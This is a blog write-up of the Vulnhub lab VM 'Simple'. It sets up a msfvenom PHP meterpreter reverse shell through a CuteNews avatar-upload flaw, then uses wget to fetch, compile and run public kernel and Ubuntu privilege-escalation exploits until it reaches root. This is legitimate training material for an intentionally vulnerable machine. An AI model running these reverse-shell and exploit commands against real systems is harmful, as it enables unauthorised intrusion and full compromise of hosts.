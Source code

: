 Title:Vulnhub SecTalks: BNE0x03 - Simple
Date: 05-11-2016 19:55
category:security
tags:msfvenom, security, vulnhub, metasploit
meta:msfvenom, security, vulnhub, metasploit

<img class="align-left"
src="/media/2016.05/simple1.png" alt="Simple homepage" width="162">

As droopy was not really hard and doesn't contain as much web vulnerability as I
would hope for, I tried an other VM
[SecTalks: BNE0x03 - Simple](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
There were also hints on the description of the machine but with my resolution
they do not appear when just browsing the main page of vulnhub so I have not
spoiled myself with the hints this time.

<!-- PELICAN_END_SUMMARY -->

## Discovery

Let's nmap the box to get some knowledge about it:

    root@kalili:~# nmap 10.0.2.5 -p0-65535

    Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-11 15:42 CEST
    Nmap scan report for 10.0.2.5
    Host is up (0.00032s latency).
    Not shown: 65535 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:60:21:5C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 2.60 seconds

There seems once more that only the port 80 with a HTTP service is available.

## Web

We go to the website. We notice that it is powered by CuteNews 2.0.3 (look at
the footer). We search on internet for vulnerability and found
[one](https://www.exploit-db.com/exploits/37474/).
This vulnerability allow the execute PHP code by uploading a malicious avatar.

![/media/2016.05/simple1.png]

We create an account in order to upload our avatar.

![/media/2016.05/simple2.png]

We generate a PHP meterpreter using `msfvenom`:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e php/base64 -f raw > /tmp/shell.php

We prepare our metasploit for the callback:

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.2.5
    LHOST => 10.0.2.5
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > exploit
    [*] Started reverse handler on 10.0.2.5:4444
    [*] Starting the payload handler...

We upload our msfvenom's payload as our avatar.

We go to `http://10.0.2.5/uploads/avatar_john_shell.php` and we got our
meterpreter!
Let's see what this box is made of:

    uname -a
    Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux

Once more an Ubuntu 14.04, like the droopy from yesterday.

## Privileges escalation

### CVE-2015-1328 exploiting overlayFS

Let us try once again to exploit the CVE-2015-1328 exploiting overlayFS to get
a root shell on the machine. I started a shell from the meterpreter, download
the exploit, compile it, run it and failed it:

    meterpreter > shell
    Process 1335 created.
    Channel 3 created.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    wget https://www.exploit-db.com/download/37292
    --2016-05-11 09:59:52--  https://www.exploit-db.com/download/37292
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5123 (5.0K) [application/txt]
    Saving to: '37292'

        0K .....                                                 100%  409M=0s

    2016-05-11 09:59:53 (409 MB/s) - '37292' saved [5123/5123]

    mv 37292 ofs.c
    gcc ofs.c -o ofs
    ls
    avatar_john_shell.php
    ofs
    ofs.c
    chmod +x ofs
    ./ofs
    spawning threads
    mount #1
    mount #2
    child threads done
    exploit failed

When searching for exploit regarding linux 3.16.0 I found the CVE-2014-5207:

### CVE-2014-5207 Fuse-based exploit

[CVE-2014-5207 Fuse-based exploit](https://www.exploit-db.com/exploits/34923/).
I download the exploit, compiled it and once more failed it:

    gcc -Wall fuse_suid.c `pkg-config fuse --cflags --libs` -o fuse_suid
    /bin/sh: 1: pkg-config: not found
    fuse_suid.c:21:18: fatal error: fuse.h: No such file or directory
    #include <fuse.h>
                      ^
    compilation terminated

When searching for `ubuntu 14.04 privilege escalation exploit` I found two
interesting exploits :
 * CVE-2015-3643
 * CVE-2015-1318 + CVE-2015-1862

### CVE-2015-3643

[The CVE-2015-3643](https://www.exploit-db.com/exploits/36820/) exploit the
D-Bus listening on com.ubuntu.USBCreator.
I try this exploit but the module was not available and failed:

    dbus-send --print-reply --system --dest=com.ubuntu.USBCreator /com/ubuntu/USBCreator com.ubuntu.USBCreator.KVMTest string:/dev/sda dict:string:string:DISPLAY,"foo",XAUTHORITY,"foo",LD_PRELOAD,"/tmp/test.so"
    Error org.freedesktop.DBus.Error.ServiceUnknown: The name com.ubuntu.USBCreator was not provided by any .service files

### CVE-2015-1318 + CVE-2015-1862

[The CVE-2015-1318 + CVE-2015-1862](https://www.exploit-db.com/exploits/36746/)
exploit a feature in ubuntu 14.04 allowing a user to forward crash reports
([more informations here](http://exploiterz.blogspot.fr/2015/04/2015-cve-1318-leading-to-privilege.html)).
I download the exploit, compiled it with `-static` and run it to get a root
shell on the box:

    meterpreter > shell
    Process 1550 created.
    Channel 9 created.
    cd /tmp/
    wget https://www.exploit-db.com/download/36746
    --2016-05-11 11:22:39--  https://www.exploit-db.com/download/36746
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5216 (5.1K) [application/txt]
    Saving to: '36746'

        0K .....                                                 100%  337M=0s

    2016-05-11 11:22:43 (337 MB/s) - '36746' saved [5216/5216]

    mv 36746 newpid.c
    gcc -static newpid.c
    newpid.c:17:3: warning: #warning this file must be compiled with -static [-Wcpp]
    # warning this file must be compiled with -static
      ^
    ./a.out
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
    id
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)

## Conclusion

We just need to get our hands on the flag to finish it.

    cat /root/flag.txt
    U wyn teh Interwebs!!1eleven11!!1!
    Hack the planet

It was a nice box with still not so much web exploitation and only one exploit
to launch to get to root.
Thanks to [Robert Winkel](https://twitter.com/@RobertWinkel) for the box and as
always to Vulnhub for their work.
